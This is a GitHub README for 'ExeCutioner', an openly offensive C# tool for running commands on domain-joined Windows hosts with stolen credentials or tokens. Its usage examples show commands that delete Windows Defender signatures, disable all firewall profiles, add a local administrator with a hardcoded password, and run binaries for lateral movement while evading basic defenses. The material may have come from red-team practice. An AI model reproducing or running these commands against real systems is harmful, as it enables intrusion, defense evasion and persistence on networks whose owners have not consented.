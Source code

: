 # ExeCutioner


![image](https://user-images.githubusercontent.com/57995347/164909586-9938ba03-3381-4750-ab95-3f69c261f625.png)



This is an Offensive C# Tool written to execute commands on Domain-joined Windows hosts by either taking user supplied creds (username/password) or leveraging the logged-on user's access token.

It also supports a "PsExeclike" lateral movement technique that attempts to fly under the radar of basic defenses and can be used to clear AV Definitions to further make attacks easier.

                      
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>
```

Options:
```
/addadmin - adds a local administrator called newguy with password MakeLife123 to target
/cmd - allows for the execution of commands on the target
/domain - allows for the specification of target domain
/noav - deletes Windows Defender's signatures
/nofw - disables all target firewall profiles
/pass - specifies password to use
/t - specifies the target
/syscreds - ignores the user specified and uses the token of the currently logged in user
/user - specifies the target user account
```

Usage:
```
ExeCutioner.exe /t <target> /user <username>  /pass <password>  /domain <domain> <command-to-run>

Usage: Examples:
ExeCutioner.exe /?  - show's this help menu 

//Authenticate to target with username and password and disable firewall profiles
ExeCutioner.exe /t <target name or IP> /user <username> /pass <password> /domain <domain> /nofw true

//Authenticate to target with current system token and remove Windows Defender Signature Definitions) - useful and facilitates easier lateral movement/code execution
ExeCutioner.exe /t <target name or IP> /syscreds true /noav true

//Authenticate to target with current user token and execute command
ExeCutioner.exe /t <target name or IP> /syscreds /cmd <command-to-run-in-qoutes>

//Authenticate to target with current user token and execute binary for lateral movement. Works when with binaries on disk.
ExeCutioner.exe /t <target name or IP> /syscreds /cmd <C:\lateralmovement.exe>

//Authenticate to target with current user token and add a new Local Administrator - username "newguy" with password "MakeLife123"
ExeCutioner.exe /t <target name or IP> /syscreds /addadmin true
```

# YouTube Video
Below is a link to see the tool in action on my YouTube channel

https://youtu.be/CiZMVVAka8Y

# Credits
- Heavily inspired by and leveraged code from "[chvancooten's Code Snippets](https://github.com/chvancooten/OSEP-Code-Snippets)" 
- Great resource from "[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.security.principal.windowsidentity.impersonate?view=netframework-4.8)"


